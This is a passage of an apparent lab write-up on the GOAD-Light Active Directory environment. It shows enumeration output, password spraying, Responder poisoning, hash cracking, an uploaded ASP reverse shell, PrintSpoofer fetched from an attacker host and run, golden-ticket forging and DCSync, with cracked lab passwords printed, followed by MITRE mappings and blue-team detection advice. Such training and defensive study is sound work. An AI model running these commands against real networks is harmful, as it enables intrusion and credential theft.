|    Shares via RPC on kingslanding.sevenkingdoms.local    |
 ==========================================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user
 =============================================================
|    Policies via RPC for kingslanding.sevenkingdoms.local    |
 =============================================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed
 =============================================================
|    Printers via RPC for kingslanding.sevenkingdoms.local    |
 =============================================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

# 192.168.56.10 enum
$ enum4linux-ng -A 192.168.56.10

ENUM4LINUX - next generation (v1.3.10)
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.56.10
[*] Username ......... ''
[*] Random Username .. 'ygdrxwla'
[*] Password ......... ''
[*] Timeout .......... 10 second(s)
 ======================================
|    Listener Scan on 192.168.56.10    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp
 =====================================================
|    Domain Information via LDAP for 192.168.56.10    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: sevenkingdoms.local
 ============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.56.10    |
 ============================================================
[+] Got domain/workgroup name: SEVENKINGDOMS
[+] Full NetBIOS names information:
- SEVENKINGDOMS   <00> - <GROUP> M <ACTIVE>  Domain/Workgroup Name
- SEVENKINGDOMS   <1c> - <GROUP> M <ACTIVE>  Domain Controllers
- KINGSLANDING    <00> -         M <ACTIVE>  Workstation Service
- KINGSLANDING    <20> -         M <ACTIVE>  File Server Service
- SEVENKINGDOMS   <1b> -         M <ACTIVE>  Domain Master Browser
- MAC Address = 00-0C-29-C8-3C-FD
 ==========================================
|    SMB Dialect Check on 192.168.56.10    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                              
SMB 1.0: false                                                                 
SMB 2.0.2: true                                                                
SMB 2.1: true                                                                  
SMB 3.0: true                                                                  
SMB 3.1.1: true                                                                
Preferred dialect: SMB 3.0                                                       
SMB1 only: false                                                                 
SMB signing required: true                                                       
 ============================================================
|    Domain Information via SMB session for 192.168.56.10    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: KINGSLANDING                                              
NetBIOS domain name: SEVENKINGDOMS                                               
DNS domain: sevenkingdoms.local                                                  
FQDN: kingslanding.sevenkingdoms.local                                           
Derived membership: domain member                                                
Derived domain: SEVENKINGDOMS                                                    
 ==========================================
|    RPC Session Check on 192.168.56.10    |
 ==========================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[-] Could not establish guest session: STATUS_LOGON_FAILURE
 ====================================================
|    Domain Information via RPC for 192.168.56.10    |
 ====================================================
[+] Domain: SEVENKINGDOMS
[+] Domain SID: S-1-5-21-604280439-1264172327-689438309
[+] Membership: domain member
 ================================================
|    OS Information via RPC for 192.168.56.10    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                         
OS version: '10.0'                                                               
OS release: '1809'                                                               
OS build: '17763'                                                                
Native OS: not supported                                                         
Native LAN manager: not supported                                                
Platform id: null                                                                
Server type: null                                                                
Server type string: null                                                         
 ======================================
|    Users via RPC on 192.168.56.10    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED
 =======================================
|    Groups via RPC on 192.168.56.10    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED
 =======================================
|    Shares via RPC on 192.168.56.10    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user
 ==========================================
|    Policies via RPC for 192.168.56.10    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed
 ==========================================
|    Printers via RPC for 192.168.56.10    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

# 192.168.56.11 enum (Most important)
$ enum4linux-ng -A 192.168.56.11
ENUM4LINUX - next generation (v1.3.10)
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.56.11
[*] Username ......... ''
[*] Random Username .. 'agnnarel'
[*] Password ......... ''
[*] Timeout .......... 10 second(s)
 ======================================
|    Listener Scan on 192.168.56.11    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp
 =====================================================
|    Domain Information via LDAP for 192.168.56.11    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: sevenkingdoms.local
 ============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.56.11    |
 ============================================================
[+] Got domain/workgroup name: NORTH
[+] Full NetBIOS names information:
- WINTERFELL      <00> -         M <ACTIVE>  Workstation Service                 
- NORTH           <00> - <GROUP> M <ACTIVE>  Domain/Workgroup Name               
- NORTH           <1c> - <GROUP> M <ACTIVE>  Domain Controllers                  
- WINTERFELL      <20> -         M <ACTIVE>  File Server Service                 
- NORTH           <1b> -         M <ACTIVE>  Domain Master Browser               
- MAC Address = 00-0C-29-7E-4F-33                                                
 ==========================================
|    SMB Dialect Check on 192.168.56.11    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                              
SMB 1.0: false                                                                 
SMB 2.0.2: true                                                                  SMB 2.1: true                                                                   SMB 3.0: true                                                                  
SMB 3.1.1: true                                                                
Preferred dialect: SMB 3.0                                                       
SMB1 only: false                                                                 
SMB signing required: true                                                       
 ============================================================
|    Domain Information via SMB session for 192.168.56.11    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: WINTERFELL                                                
NetBIOS domain name: NORTH                                                       
DNS domain: north.sevenkingdoms.local                                            
FQDN: winterfell.north.sevenkingdoms.local                                       
Derived membership: domain member                                                
Derived domain: NORTH                                                            
 ==========================================
|    RPC Session Check on 192.168.56.11    |
 ==========================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[-] Could not establish guest session: STATUS_LOGON_FAILURE
 ====================================================
|    Domain Information via RPC for 192.168.56.11    |
 ====================================================
[+] Domain: NORTH
[+] Domain SID: S-1-5-21-508423329-115901089-1858097058
[+] Membership: domain member
 ================================================
|    OS Information via RPC for 192.168.56.11    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                         
OS version: '10.0'                                                               
OS release: '1809'                                                               
OS build: '17763'                                                                
Native OS: not supported                                                         
Native LAN manager: not supported                                                
Platform id: null                                                                
Server type: null                                                                
Server type string: null                                                         
 ======================================
|    Users via RPC on 192.168.56.11    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[+] Found 10 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 10 user(s) via 'enumdomusers'
[+] After merging user results we have 10 user(s) total:
'1110':                                                                          
  username: arya.stark                                                           
  name: (null)                                                                   
  acb: '0x00000210'                                                              
  description: Arya Stark                                                        
'1114':                                                                          
  username: sansa.stark                                                          
  name: (null)                                                                   
  acb: '0x00000210'                                                              
  description: Sansa Stark                                                       
'1115':                                                                          
  username: brandon.stark                                                        
  name: (null)                                                                   
  acb: '0x00010210'                                                              
  description: Brandon Stark                                                     
'1116':                                                                          
  username: rickon.stark                                                         
  name: (null)                                                                   
  acb: '0x00000210'                                                              
  description: Rickon Stark                                                      
'1117':                                                                          
  username: hodor                                                                
  name: (null)                                                                   
  acb: '0x00000210'                                                              
  description: Brainless Giant                                                   
'1118':                                                                          
  username: jon.snow                                                             
  name: (null)                                                                   
  acb: '0x00040210'                                                              
  description: Jon Snow                                                          
'1119':                                                                          
  username: samwell.tarly                                                        
  name: (null)                                                                   
  acb: '0x00000210'                                                              
  description: 'Samwell Tarly (Password : Heartsbane)' #Nice !                   
'1120':                                                                          
  username: jeor.mormont                                                         
  name: (null)                                                                   
  acb: '0x00000210'                                                              
  description: Jeor Mormont                                                      
'1121':                                                                          
  username: sql_svc                                                              
  name: (null)                                                                   
  acb: '0x00000210'                                                              
  description: sql service                                                       
'501':                                                                           
  username: Guest                                                                
  name: (null)                                                                   
  acb: '0x00000215'                                                              
  description: Built-in account for guest access to the computer/domain          
 =======================================
|    Groups via RPC on 192.168.56.11    |
 =======================================
[*] Enumerating local groups
[+] Found 6 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 21 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 11 group(s) via 'enumdomgroups'
[+] After merging groups results we have 38 group(s) total:
'1102':                                                                          
  groupname: DnsAdmins                                                           
  type: local                                                                    
'1103':                                                                          
  groupname: DnsUpdateProxy                                                      
  type: domain                                                                   
'1106':                                                                          
  groupname: Stark                                                               
  type: domain                                                                   
'1107':                                                                          
  groupname: Night Watch                                                         
  type: domain                                                                   
'1108':                                                                          
  groupname: Mormont                                                             
  type: domain                                                                   
'1109':                                                                          
  groupname: AcrossTheSea                                                        
  type: local                                                                    
'513':                                                                           
  groupname: Domain Users                                                        
  type: domain                                                                   
'514':                                                                           
  groupname: Domain Guests                                                       
  type: domain                                                                   
'515':                                                                           
  groupname: Domain Computers                                                    
  type: domain                                                                   
'517':                                                                           
  groupname: Cert Publishers                                                     
  type: local                                                                    
'520':                                                                           
  groupname: Group Policy Creator Owners                                         
  type: domain                                                                   
'522':                                                                           
  groupname: Cloneable Domain Controllers                                        
  type: domain                                                                   
'525':                                                                           
  groupname: Protected Users                                                     
  type: domain                                                                   
'526':                                                                           
  groupname: Key Admins                                                          
  type: domain                                                                   
'545':                                                                           
  groupname: Users                                                               
  type: builtin                                                                  
'546':                                                                           
  groupname: Guests                                                              
  type: builtin                                                                  
'553':                                                                           
  groupname: RAS and IAS Servers                                                 
  type: local                                                                    
'554':                                                                           
  groupname: Pre-Windows 2000 Compatible Access                                  
  type: builtin                                                                  
'555':                                                                           
  groupname: Remote Desktop Users                                                
  type: builtin                                                                  
'556':                                                                           
  groupname: Network Configuration Operators                                     
  type: builtin                                                                  
'558':                                                                           
  groupname: Performance Monitor Users                                           
  type: builtin                                                                  
'559':                                                                           
  groupname: Performance Log Users                                               
  type: builtin                                                                  
'560':                                                                           
  groupname: Windows Authorization Access Group                                  
  type: builtin                                                                  
'561':                                                                           
  groupname: Terminal Server License Servers                                     
  type: builtin                                                                  
'562':                                                                           
  groupname: Distributed COM Users                                               
  type: builtin                                                                  
'568':                                                                           
  groupname: IIS_IUSRS                                                           
  type: builtin                                                                  
'569':                                                                           
  groupname: Cryptographic Operators                                             
  type: builtin                                                                  
'571':                                                                           
  groupname: Allowed RODC Password Replication Group                             
  type: local                                                                    
'572':                                                                           
  groupname: Denied RODC Password Replication Group                              
  type: local                                                                    
'573':                                                                           
  groupname: Event Log Readers                                                   
  type: builtin                                                                  
'574':                                                                           
  groupname: Certificate Service DCOM Access                                     
  type: builtin                                                                  
'575':                                                                           
  groupname: RDS Remote Access Servers                                           
  type: builtin                                                                  
'576':                                                                           
  groupname: RDS Endpoint Servers                                                
  type: builtin                                                                  
'577':                                                                           
  groupname: RDS Management Servers                                              
  type: builtin                                                                  
'578':                                                                           
  groupname: Hyper-V Administrators                                              
  type: builtin                                                                  
'579':                                                                           
  groupname: Access Control Assistance Operators                                 
  type: builtin                                                                  
'580':                                                                           
  groupname: Remote Management Users                                             
  type: builtin                                                                  
'582':                                                                           
groupname: Storage Replica Administrators                                        
type: builtin                                                                  
 =======================================
|    Shares via RPC on 192.168.56.11    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user
 ==========================================
|    Policies via RPC for 192.168.56.11    |
 ==========================================
[*] Trying port 445/tcp
[+] Found policy:
Domain password information:                                                     
  Password history length: 24                                                    
  Minimum password length: 5                                                     
  Minimum password age: 1 day 4 minutes                                          
  Maximum password age: 37201 days (101 years) 2 minutes                         
  Password properties:                                                           
  - DOMAIN_PASSWORD_COMPLEX: false                                               
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false                                        
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false                                       
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false                                        
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false                              
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false                                
Domain lockout information:                                                      
Lockout observation window: 5 minutes                                          Lockout duration: 5 minutes                                                    
Lockout threshold: 5                                                           
Domain logoff information:                                                       
Force logoff time: not set                                                     
 ==========================================
|    Printers via RPC for 192.168.56.11    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

# 192.168.56.22 enum
$ enum4linux-ng -A 192.168.56.22

ENUM4LINUX - next generation (v1.3.10)
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.56.22
[*] Username ......... ''
[*] Random Username .. 'rsbfetir'
[*] Password ......... ''
[*] Timeout .......... 10 second(s)
 ======================================
|    Listener Scan on 192.168.56.22    |
 ======================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp
 ============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.56.22    |
 ============================================================
[+] Got domain/workgroup name: NORTH
[+] Full NetBIOS names information:
- CASTELBLACK     <00> -         M <ACTIVE>  Workstation Service                 
- NORTH           <00> - <GROUP> M <ACTIVE>  Domain/Workgroup Name               
- CASTELBLACK     <20> -         M <ACTIVE>  File Server Service                 
- MAC Address = 00-0C-29-DC-1C-67                                                
 ==========================================
|    SMB Dialect Check on 192.168.56.22    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                              
  SMB 1.0: false                                                                 
  SMB 2.0.2: true                                                                
  SMB 2.1: true                                                                  
  SMB 3.0: true                                                                  
  SMB 3.1.1: true                                                                
Preferred dialect: SMB 3.0                                                       
SMB1 only: false                                                                 
SMB signing required: false                                                      
 ============================================================
|    Domain Information via SMB session for 192.168.56.22    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: CASTELBLACK                                               
NetBIOS domain name: NORTH                                                       
DNS domain: north.sevenkingdoms.local                                            
FQDN: castelblack.north.sevenkingdoms.local                                      
Derived membership: domain member                                                
Derived domain: NORTH                                                            
 ==========================================
|    RPC Session Check on 192.168.56.22    |
 ==========================================
[*] Check for anonymous access (null session)
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for guest access
[+] Server allows authentication via username 'rsbfetir' and password ''
[H] Rerunning enumeration with user 'rsbfetir' might give more results
 ================================================
|    OS Information via RPC for 192.168.56.22    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                         
OS version: '10.0'                                                               
OS release: '1809'                                                               
OS build: '17763'                                                                
Native OS: not supported                                                         
Native LAN manager: not supported                                                
Platform id: null                                                                
Server type: null                                                                
Server type string: null 
```

**Key findings**:
- FQDNs 
- Anonymous logins are accepted
- Ports 445, 139, 636, 389 are open
- Access to the server by username 'rsbfetir' (any random username) and no pass
- Full NetBIOS names
- Password of user *samwell.tarly* 

## Enumeration (Internal)
Since the *kingslanding* DC accepts anonymous login, and we found the credentials of user *samwell.tarly* in the description, lets try singing in and enumerate the AD using **Netexec** & **Bloodhound** to map the AD.
``` bash
# Testing Anonymous login
nxc smb 192.168.56.10 -u '' -p ''
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.56.10   445    KINGSLANDING     [+] sevenkingdoms.local\: 

# Lets enumerate using the user we found
certipy find -u samwell.tarly -p Heartsbane -dc-ip 192.168.56.10
certipy find -u samwell.tarly -p Heartsbane -dc-ip 192.168.56.11

# This is the summary of the results
# DC01 resutls
 [+] User Enrollable Principals      : SEVENKINGDOMS.LOCAL\Domain Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.

#DC02 results
 [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.

```
So now we know there is 2 crucial vulnerabilities we can take advantage of, we will come back to them later.

Connected to **DC01** & **DC02** but failed **SRV02**


Lets move to using **Bloodhound** for further enumeration.
``` bash
bloodhound-ce-python \                                                           
-u 'samwell.tarly' \
-p 'Heartsbane' \
-d north.sevenkingdoms.local \  
-ns 192.168.56.11 \       
-c All     
```
**Results**


**Uploaded results to Bloohound**


**North Domain Admins**


**Users**


## Pass Spraying
Lets get to spraying and praying 🔫. Now this part isnt very simple, as we saw during the enumeration, there is a password lockout policy, so we have 5 tries per user before its locked for minutes to try again. We also know that the minimum password character length is 5.
First i will try using the same usernames as passwords for each user.



``` bash
# No bruteforce. User 1 --> Password 1, User 2 --> Password 2.
netexec smb 192.168.56.11 -u Users.txt -p Pass.txt --no-bruteforce --continue-on-success --log SprayRez.txt
```

We got it 😮‍💨 . I did not continue spraying cuz after i failed multiple times with default and common credentials lists. 

## LLMNR & NBT-NS Poisoning
We know there is two bot users making LLMNR queries every 3 and 5 minutes. With this command, we can check their connections and the protocol they are using.
``` bash
sudo responder -I eth0
```


After capturing the **NTLMv1**, we use **hashcat** to crack it.
``` bash
hashcat -m 5500 -a 0 NTLMhashes.hashes /usr/share/wordlists/rockyou.txt.gz
```


We got the credentials for *robb.stark* and just like that, we pwned the *Winterfell* DC!


And just like that.. 


We got all the credentials for the *North*!


## Exploiting MSSQL
Now that we got all the credentials, lets see what we can find and use them to our advantage. 
``` bash
# Cracking the NTLM hashes
hashcat -m 1000 -a 0 WINTERFELL.ntds /usr/share/wordlists/rockyou.txt.gz
# Results 
31d6cfe0d16ae931b73c59d7e0c089c0:Guest:
84bbaa1c58b7f69d2192560a3f932129:brandon.stark:iseedeadpeople
e02bc503339d51f71d913c245d35b50b:vagrant:vagrant
4f622f4cd4284a887228940e2ff4e709:arya.stark:Needle
831486ac7f26860c9e2f51ac91e1a07a:robb.stark:sexywolfy
b8d76e56e9dac90539aff05e3ccb1755:jon.snow:iknownothing
```
After checking, *jon.snow* is the **MSSQL** administrator. 
Below is the method to exploit the **EXECUTE AS** vulnerability with a regular user.

**NOTE:** You can login with RDP with **xfreerdp3** to the **SRV02** server with any of the users and take advantage of this vulnerability.




The user *sa* has sysadmin privileges which our user lacks. Now, we can impersonate *sa*.
``` powershell
sqlcmd -S ".\SQLEXPRESS" -E -Q "EXECUTE AS LOGIN = 'sa';"
```
Now we have full administrative access on the MSSQL server.

## Exploiting File Upload 
Lets first check the **IIS Website** on the IP **192.168.56.22**


The site has **ASP** and there is a file upload that accepts any file


Lets enumerate directories on the site to see what we can find


There is an upload directory, but we got **403**. We can see that the uploaded files go to the *upload/* folder that we were denied to access previously.



Lets try getting a **reverse shell**. I got the payload from **[PayLoadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.aspx)**. After uploading the file, this is the result


But this isnt an interactive shell and we would have to combine commands. 
I got an amazing payload from **[Darknet](https://www.darknet.org.uk/darknet-archives/#year2014:~:text=InsomniaShell%20%E2%80%93%20ASP.NET%20Reverse%20Shell%20Or%20Bind%20Shell)** that gives us an interactive shell. 


And we are in with **impersonation** enabled.


We can abuse **SeImpersonatePrivilege** using one of the [**Potato**](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) techniques or [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer).
``` bash
# Terminal 1: Your Attacker machine
wget -O Pspoofy.exe "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe"

# Terminal 2: Start local python from inside the directory where you have PrintSpoofer downloaded
python3 -m http.server 8080

# Terminal 3: The reverse shell machine
# This is to be executed in powershell

mkdir c:\tmp
cd c:\tmp
Invoke-WebRequest -Uri 'http://192.168.56.99:8080/PSpoofy.exe' -OutFile 'C:\tmp\PSpoofy.exe'

# Then test your privileges before and after
whoami
# Execute PrintSpoofer
.\PSpoofy.exe -i -c cmd.exe
```

And thats it!


## Privilege Escalation (Golden Ticket)
We pwned the *North* forest with *jeor.morment* as *Castleback* admin and all 3 admins of *Winterfell*. Now its time to move on to *sevenkingdoms*. We know that there is an **ESC1** for *sevenkingdoms* and **ESC8**. First, lets check if we can login other DCs with the same administrator hash we found
``` bash
nxc smb 192.168.56.10-23 -u Administrator -H dbd13e1c4e338284ac4e9874f7de6ef4 --local-auth
```


It only worked for *Castleback*. However, we authenticated locally, lets try the hash on the domain controllers without local authentication.
``` bash
nxc smb 192.168.56.10-23 -u Administrator -H dbd13e1c4e338284ac4e9874f7de6ef4
```

So we only have Administrator on the North domain.

Lets perform a **[Golden Ticket](https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/golden-ticket.html)** attack using the *krbtgt* of the North domain found in our dump earlier. 
``` bash
# To get domain SID (In this case, its anonymous loign. If not successful, login with an account to get it)
rpcclient -U "" -N 192.168.56.10

# Forge the ticket
impacket-ticketer -nthash 0f32b298bfa9cd0bcd344f63775b2bd3 -domain-sid S-1-5-21-508423329-115901089-1858097058 -extra-sid S-1-5-21-604280439-1264172327-689438309-519 -domain north.sevenkingdoms.local Administrator

# Make the .ccache the default
export KRB5CCNAME=/home/kali/AD-GOAD-Light/Creds/Administrator.ccache

# Authenticate using the ticket
impacket-psexec north.sevenkingdoms.local/Administrator@kingslanding.sevenkingdoms.local -k -no-pass -debug
```

It executed correctly but there is an issue.

A few things could be causing this. It could be **Windows Defender**, the .**exe** itself, a communication issue as **RemCom_communicaton** indicated. 

Lets check again with a different protocol
``` bash
# SMB Authentication
impacket-smbclient north.sevenkingdoms.local/Administrator@kingslanding.sevenkingdoms.local -k -no-pass 

# Worked, lets enumerate from inside
shares 
ADMIN$
C$
CertEnroll
IPC$
NETLOGON
SYSVOL

# Use one of them
use ADMIN$
ls
```

I found nothing interesting navigating through the shares, then it clicked to me, why am i doing this? I dont need a shell directly using the **golden ticket**, i can just DCsync !

``` bash
impacket-secretsdump north.sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local -no-pass -k -just-dc
```


And just like that we have fully taken over the forest!


**Tips & Tricks**:
- When forging the ticket, make the user Administrator or a username you know is available on that domain instead of a random user.
- Use **extra-sid** option of the parent domain SID alongside - 519 which is for enterprise admins. Here is a list of Windows [SIDs](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/Windows%20SID.md#:~:text=5%2D21root%20domain%2D-,519,-Enterprise%20Admins) explained.
- For better OPSEC, use **AES** instead of **NTHASH** to avoid Event IDs **4768** & **4769**. Set a manual expiry date instead of the default **10 years**. Use **[Diamond Ticket](https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/diamond-ticket.html)** if possible.
- Use the golden ticket to DCSync instead of trying to get a shell.
- Sometimes the error you are getting is because of your DNS or VMnet, so ensure they are all working properly.
- Follow a mindmap and use tools instead of being random and all over the place, you will get lost. 
- Dont depend on AI too much, it will make you more lost. Try your best first, if you get overwhelmed, take a rest and continue again.

**IMPORTANT**: As you can see i skipped the **ESC1** and **ESC8** in this writeup. The reason for that is the NTLM Relay kept failing numerous times, getting 200 status code instead of 401 and therefore i could not get any certificate from any user from the root domain to perform the **ESC1**, as the template requires a **Domain User** to perform it.
Also, the groups **AcrossTheNarrowSea** and **AcrossTheSea** are empty, and there are no users to cross domain in this scenario. The documentation does mention the GOAD-Light lacks cross-forest, so i just ignored them.

## Post Exploitation
Now you have full control and have taken over, whats next? Well, whatever you want. You can add an account, drop a file for persistence, dump information, encrypt the system files with ransomware, the possibilities are endless.
This is why security is important, it starts as reaching and unimportant, but the risks after the first breach will make any company regret them overlooking their security.

# MITRE ATT&CK Mapping

| **Tool / Concept**                        | **MITRE ATT&CK Tactic**                                 | **MITRE ATT&CK Technique**                                                                | **Technique ID**                 |
| ----------------------------------------- | ------------------------------------------------------- | ----------------------------------------------------------------------------------------- | -------------------------------- |
| **Nmap Scan**                             | Discovery                                               | Network Service Discovery                                                                 | T1046                            |
| **Enum4Linux**                            | Discovery                                               | Account Discovery<br><br>  <br><br>Network Share Discovery                                | T1087<br><br>  <br><br>T1135     |
| **BloodHound Mapping**                    | Discovery                                               | Domain Trust Discovery<br><br>  <br><br>Permission Groups Discovery                       | T1482<br><br>  <br><br>T1069.002 |
| **Password Spraying**                     | Credential Access                                       | Brute Force: Password Spraying                                                            | T1110.003                        |
| **LLMNR / NBT-NS Poisoning (Responder)**  | Credential Access                                       | Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay                             | T1557.001                        |
| **AS-REP Roasting**                       | Credential Access                                       | Steal or Forge Kerberos Tickets: AS-REP Roasting                                          | T1558.004                        |
| **Kerberoasting**                         | Credential Access                                       | Steal or Forge Kerberos Tickets: Kerberoasting                                            | T1558.003                        |
| **Password in LDAP Description**          | Credential Access                                       | Unsecured Credentials: Credentials in Files/AD                                            | T1552                            |
| **IIS File Upload to Reverse Shell**      | Initial Access<br><br>  <br><br>Persistence             | Exploit Public-Facing Application<br><br>  <br><br>Server Software Component: Web Shell   | T1190<br><br>  <br><br>T1505.003 |
| **PrintSpoofer (SeImpersonatePrivilege)** | Privilege Escalation                                    | Access Token Manipulation: Token Impersonation/Theft                                      | T1134.001                        |
| **MSSQL Trusted Link & Execute As**       | Lateral Movement<br><br>  <br><br>Execution             | Remote Services<br><br>  <br><br>Command and Scripting Interpreter: Windows Command Shell | T1021<br><br>  <br><br>T1059.003 |
| **Cross-Forest Group Hopping**            | Lateral Movement                                        | Use Alternate Authentication Material                                                     | T1550                            |
| **DCSync (secretsdump.py)**               | Credential Access                                       | OS Credential Dumping: DCSync                                                             | T1003.006                        |
| **Golden Ticket Forging (ExtraSIDs)**     | Credential Access<br><br>  <br><br>Privilege Escalation | Steal or Forge Kerberos Tickets: Golden Ticket                                            | T1558.001                        |

# Blue Teaming 
We were able to gain access and takeover the domains, but whats the defensive POV for that? What logs can be generated when such attack is happening? How can the misconfigurations that were exploited be prevented? What MITRE ATT&CK TTPs were used? We will discuss all that in this section using each one of the attacks we perfromed.

## Network Reconnaissance
This is the first practical step in every red team operation. Our goal isnt to hide the network, but to make it critical services **unreachable**.

- Host-based firewalls.
- Network ACLs.
- VLAN/network segmentation.
- Remove unused services.
- IDS/IPS

**Indicators to lookout for**
- High ARP/ICMP/TCP Handshakes In Traffic
- Sysmon IDs

This is what typical traffic look like during an **nmap** scan using the following command:
``` bash
nmap -sS -sV <IP>
```




These are the **sysmon** Event IDs

## SMB / LDAP Enumeration
We used **Enum4linux** and got our first foothold into the system. Such services are critical in AD environments and can expose alot.

- Disable anonymous/guest access.
- Restrict regular users from admin privileges.
- Review ACLs on AD objects.
- Remove unused accounts and groups.

These reduce/prevent enumeration using **BloodHound** or other tools.

## Password Spraying
As this does not seem risky, it could be with the right passwords. Attackers can use passwords found from previous data breaches for the company or the employees. Without the right implementations in place, a very high chance they gain initial access.

- Strong password policy and no password resuse
- MFA
- Banned passwords list
- Disable unused accounts
- Separate privileged accounts from normal user accounts.
- Monitor authentication failures across **many different accounts**.

**Windows EventIDs to lookout for**
- 4625 — Failed logon 
- 4771 — Kerberos pre-authentication failed 
- 4776 — Domain controller attempted to validate credentials

Remember, attackers dont break in, they **log in**.

**Wireshark**


**Wazuh**

## LLMNR/NBT-NS Poisoning and SMB Relay
We found 2 credentials and one of them was admin using this. Using downgraded/outdated protocols is very dangerous. 

- Upgrade protocols.
- Disable LLMNR.
- Disable unnecessary NBT-NS.
- Disable unnecessary WPAD functionality.
- Enable SMB signing.
- Reduce NTLM usage where possible.
- Prefer Kerberos for domain authentication.

You can also use **Responder** to detect if there is any traffic being shown as we saw earlier in our red teaming operation.

This is best detected through **Wireshark**, with our **Responder** poisoning in the background this is what it looks like

## AS-REP Roasting
The main focus is to adjust accounts is where **kerberos pre-authentication** is disabled
```text
DONT_REQ_PREAUTH
```
Require **kerberos pre-authentication** then monitor for **AS-REQ** **(4768)** activity.

**Wireshark**


**Wazuh**


